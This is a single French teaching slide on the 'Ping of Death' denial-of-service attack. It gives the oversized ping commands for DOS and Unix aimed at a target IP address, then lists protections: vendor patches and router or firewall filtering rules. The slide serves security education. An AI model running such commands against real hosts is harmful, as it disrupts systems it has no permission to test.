

# Ping de la mort
Sous Dos :
Ping –l 65527 @IP
Sous Unix :
Ping –s 65527 @IP
Comment se protéger :
Appliquer le dernier patch par constructeur;
Appliquer des règles de filtrage : routeurs, parefeu
10